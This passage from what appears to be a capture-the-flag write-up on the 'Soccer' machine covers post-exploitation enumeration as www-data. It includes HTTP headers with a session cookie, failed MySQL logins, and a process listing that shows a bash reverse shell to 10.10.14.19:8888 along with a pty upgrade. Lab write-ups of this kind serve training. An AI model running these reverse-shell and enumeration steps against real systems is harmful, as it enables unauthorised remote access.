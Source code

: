 ```bash
Content-Length: 6749
ETag: W/"1a5d-j2rGKcxb2vG5mw817o9kuCXUG9A"
Set-Cookie: connect.sid=s%3AHicclUxgZKuWf_CahFbAgJ9yAeSymbUW.5n4VCOmkAgyNDk2enjvpqqxWETITeYiuF3bNJf7Kqqw; Path=/; HttpOnly
Date: Mon, 10 Jun 2023 06:37:57 GMT
Connection: keep-alive
Keep-Alive: timeout=5

www-data@soccer:~/html$ mysql -p 3306
Enter password:
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)

www-data@soccer:~/html$ mysql -p 33060
Enter password:
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)
```

But this doesn’t get me anywhere. I still don’t know what is running on port `9091`, but I see `express`, a NodeJS framework running on port `3000`. And both `3306` and `33060` seem to be MySQL instances. But it’s hard to verify any of this due to some hardening tricks this machine has applied. It turns out the `www-data` user can only read it owned processes.

```bash
www-data@soccer:~/html$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data    1129  0.0  0.1  54080  6192 ?        S    Jun11   0:05 nginx: worker process
www-data    1130  0.0  0.1  54080  6512 ?        S    Jun11   0:08 nginx: worker process
www-data    6128  0.0  0.0   2608   592 ?        S    06:15   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.19/8888 0>&1'
www-data    6129  0.0  0.0   3976  2892 ?        S    06:15   0:00 bash -c bash -i >& /dev/tcp/10.10.14.19/8888 0>&1
www-data    6130  0.0  0.0   4108  3456 ?        S    06:15   0:00 bash -i
www-data    6153  0.0  0.2  15956  9448 ?        S    06:19   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data    6155  0.0  0.0   7436  3720 pts/0    Ss   06:19   0:00 /bin/bash
www-data    6494  0.0  0.0   9088  3008 pts/0    R+   06:43   0:00 ps auxww
```

The reason for this is that the `proc` file system is mounted with the `hidepid` option:

```bash
www-data@soccer:~/html$ cat /etc/fstab

LABEL=cloudimg-rootfs   /        ext4   defaults        0 1
#VAGRANT-BEGIN
# The contents below are automatically generated by Vagrant. Do not modify.
data /data vboxsf uid=1000,gid=1000,_netdev 0 0
vagrant /vagrant vboxsf uid=1000,gid=1000,_netdev 0 0
#VAGRANT-END
/dev/sda1 none swap sw 0 0
proc    /proc   proc    defaults,nodev,relatime,hidepid=2
```

### Exploring nginx
